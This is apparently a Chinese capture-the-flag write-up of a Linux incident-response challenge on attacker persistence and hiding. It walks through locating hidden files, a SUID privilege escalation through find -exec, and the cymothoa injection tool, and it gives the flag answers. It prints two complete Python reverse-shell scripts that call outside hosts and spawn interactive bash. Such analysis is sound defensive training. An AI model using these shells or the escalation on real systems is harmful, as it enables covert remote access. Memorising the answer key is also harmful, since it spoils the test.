

# 第三章 权限维持-linux权限维持-隐藏

```
1.黑客隐藏的隐藏的文件 完整路径md5
2.黑客隐藏的文件反弹shell的ip+端口 {ip:port}
3.黑客提权所用的命令 完整路径的md5 flag{md5} 
4.黑客尝试注入恶意代码的工具完整路径md5
5.使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}
```

## 1.黑客隐藏的隐藏的文件 完整路径md5

```
find / -type f -name ".*" 2>/dev/null | grep -v "^\/sys\/" // 查找隐藏文件
find / -type d -name ".*" 2>/dev/null // 查找隐藏目录
```

看到/tmp/.temp/libprocesshider/1.py

```python
#!/usr/bin/python3

import socket,subprocess,os,sys, time

pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)

while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
        except Exception:
                pass
        time.sleep(2)

flag{109ccb5768c70638e24fb46ee7957e37} 
```

其中shell.py也是反弹shell

```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.10.7",2220))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
run(["/bin/bash","-i"])
```


## 2.黑客隐藏的文件反弹shell的ip+端口 {ip:port}

在1.py里面有个反弹shell ip

```
flag{114.114.114.121:9999}
```


## 3.黑客提权所用的命令 完整路径的md5 flag{md5}

``` 
find / -type f -perm -4000 2>/dev/null // 查找设置了suid权限的程序
或
find / -type f -u=s -4000 2>/dev/null // 查找设置了suid权限的程序
两者等价
```

其中

```
root@xuanji:/tmp/.temp/libprocesshider# find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/find
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

有个find

切换到ctf用户尝试suid提权

```
find xx -exec "whoami" \;

root@xuanji:/tmp# find -exec "whoami" \;
root

flag{7fd5884f493f4aaf96abee286ee04120}
```

## 4.黑客尝试注入恶意代码的工具完整路径md5

刚刚查找隐藏目录有个`/opt/.cymothoa-1-beta`

这是个注入工具



查找文件

```
root@xuanji:/opt/.cymothoa-1-beta# ls -l
total 564
-rw-r--r--. 1 ctf  1000    137 May 24  2011 Makefile
-rwxr-xr-x. 1 root root  13714 Aug  3  2023 bgrep
-rw-r--r--. 1 root root   4357 May  5  2011 bgrep.c
-rw-------. 1 root root 421888 Aug  3  2023 core
-rwxr-xr-x. 1 root root  30569 Aug  3  2023 cymothoa
-rw-r--r--. 1 ctf  1000  11348 Jul 27  2011 cymothoa.c
-rw-r--r--. 1 ctf  1000   5009 Jul 27  2011 cymothoa.h
-rwxr-xr-x. 1 root root   1229 May  5  2011 hexdump_to_cstring.pl
drwxr-xr-x. 2 root root  16384 Jul 27  2011 payloads
-rw-r--r--. 1 ctf  1000  15822 Jul 27  2011 payloads.h
-rw-r--r--. 1 ctf  1000   5011 May 24  2011 personalization.h
-rwxr-xr-x. 1 root root    964 May 24  2011 syscall_code.pl
-rw-r--r--. 1 root root   4995 May 24  2011 syscalls.txt
-rwxr-xr-x. 1 root root   9181 Aug  3  2023 udp_server
-rw-r--r--. 1 root root   1345 May 24  2011 udp_server.c

/opt/.cymothoa-1-beta/cymothoa
flag{087c267368ece4fcf422ff733b51aed9}
```

## 5.使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值作为flag提交 flag{/xxx/xxx/xxx}

执行后查看网络连接

```
python3 /tmp/.temp/libprocesshider/1.py
ss -antp

root@xuanji:/tmp/.temp/libprocesshider# ss -antp
State       Recv-Q Send-Q                                                      Local Address:Port                                                        Peer Address:Port 
LISTEN      0      50                                                              127.0.0.1:3306                                                                   *:*     
LISTEN      0      128                                                                     *:22                                                                     *:*      users:(("sshd",10,3))
LISTEN      0      511                                                                     *:80                                                                     *:*      users:(("apache2",11,3))
SYN-SENT    0      1                                                           10.244.32.238:41330                                                    114.114.114.121:9999   users:(("python3",857,5))
ESTAB       0      0                                                           10.244.32.238:22                                                            10.244.0.1:11988  users:(("sshd",393,3))
SYN-SENT    0      1                                                           10.244.32.238:49476                                                    114.114.114.121:9999   users:(("python3",862,3))
LISTEN      0      128                                                                    :::22                                                                    :::*      users:(("sshd",10,4))
```

```
root@xuanji:/tmp/.temp/libprocesshider# cat /proc/857/cmdline
python3/tmp/.temp/libprocesshider/1.py

ls -l /usr/bin/python3
lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4
这里是l软链接

which python3.4
/usr/bin/python3.4

flag{/usr/bin/python3.4}
```

